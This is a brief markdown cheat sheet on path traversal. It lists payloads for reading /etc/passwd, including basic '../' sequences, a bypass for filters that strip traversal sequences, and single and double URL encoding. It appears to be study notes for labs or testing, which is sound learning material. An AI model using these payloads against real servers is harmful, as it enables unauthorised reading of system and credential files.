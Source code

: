 # Path Traversal

Goal = ``/etc/passwd``

Step 1: try ``/etc/passwd``!

Step 2: try basic traversal ``../../etc/passwd``


**Don't forget to try the most obvious way to access the file... sometimes the answer is not the complex attack, it is the simplest action.**



## Directory traversal sequences stripped?

``....//`` becomes ``../``



## URL Encoding

``../`` becomes ``%2e%2e%2f``



## Double URL Encoding

``%2e%2e%2f`` becomes ``%252e%252e%252f``
